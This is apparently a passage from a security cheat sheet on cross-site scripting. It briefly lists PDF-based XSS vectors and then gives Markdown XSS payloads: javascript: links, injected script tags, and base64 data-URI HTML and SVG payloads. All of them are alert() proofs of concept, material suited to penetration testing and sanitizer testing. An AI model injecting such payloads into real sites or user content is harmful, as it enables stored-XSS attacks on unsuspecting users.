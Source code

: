 ### Technique 2: PDF Form XSS
- **Vector**: PDF forms with malicious JavaScript
- **Bypasses**: Form validation, input sanitization
- **Usage**: PDF processors, automated form handling

### Technique 3: PDF OpenAction Triggers
- **Vector**: Auto-executing JavaScript on PDF open
- **Bypasses**: Manual trigger requirements
- **Usage**: Email attachments, embedded documents

---

## 📝 Markdown XSS Techniques

**Advanced stored XSS through Markdown rendering**

### Link Injection
```markdown
[Click me](javascript:alert('Markdown XSS'))
```

### Image XSS
```markdown
![XSS](javascript:alert('Image XSS'))
```

### HTML Injection
```markdown
[XSS](<script>alert('Markdown HTML XSS')</script>)
```

### Data URI Injection
```markdown
![XSS](data:text/html;base64,PHNjcmlwdD5hbGVydCgnTWFya2Rvd24gRGF0YSBVUkkgWFNTJyk8L3NjcmlwdD4=)
```

### Table XSS
```markdown
| Column 1 | Column 2 |
|----------|----------|
| Normal   | <script>alert('Table XSS')</script> |
```

### Code Block Escape
```markdown
```
<script>alert('Code block escape XSS')</script>
```
```

### SVG Injection
```markdown
![SVG](data:image/svg+xml;base64,PHN2ZyBvbmxvYWQ9ImFsZXJ0KCdTVkcgWFNTJykiPjwvc3ZnPg==)
```

---